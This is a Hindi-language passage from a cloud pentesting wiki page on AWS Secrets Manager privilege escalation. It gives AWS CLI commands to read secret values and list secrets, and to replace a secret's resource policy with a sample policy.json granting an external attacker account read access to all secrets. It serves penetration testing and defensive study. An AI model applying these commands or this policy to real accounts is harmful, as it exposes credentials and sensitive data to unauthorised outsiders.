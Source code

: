 # AWS - Secrets Manager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Secrets manager के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

इस अनुमति के साथ एक हमलावर AWS **Secretsmanager** में **एक रहस्य के अंदर सहेजा गया मान** प्राप्त कर सकता है।
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**संभावित प्रभाव:** AWS सीक्रेट्स मैनेजर सेवा के अंदर उच्च संवेदनशील डेटा तक पहुंच।

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

पिछले अनुमतियों के साथ, यह संभव है कि **अन्य प्रिंसिपल/खातों (यहां तक कि बाहरी)** को **गुप्त** तक पहुंच प्रदान की जाए। ध्यान दें कि **KMS कुंजी** के साथ एन्क्रिप्ट किए गए गुप्तों को **पढ़ने** के लिए, उपयोगकर्ता को **KMS कुंजी पर पहुंच** भी होनी चाहिए (अधिक जानकारी के लिए [KMS Enum पृष्ठ](../aws-services/aws-kms-enum.md) पर जाएं)।
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
{{#include ../../../banners/hacktricks-training.md}}
